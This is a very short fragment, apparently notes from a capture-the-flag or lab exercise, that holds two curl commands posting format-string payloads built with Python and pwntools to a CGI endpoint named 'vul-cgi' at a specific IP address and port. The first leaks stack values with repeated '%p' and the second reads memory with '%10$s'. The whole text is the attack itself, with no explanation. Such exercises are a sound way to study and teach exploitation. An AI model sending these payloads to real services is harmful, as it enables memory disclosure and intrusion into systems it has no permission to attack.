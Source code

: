 curl -X POST -d "NAME=`python -c 'from pwn import *;print  "%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p"'`" http://140.115.59.92:10201/vul-cgi

curl -X POST -d "NAME=`python -c 'from pwn import *;print  "%10$s"'`" http://140.115.59.92:10201/vul-cgi

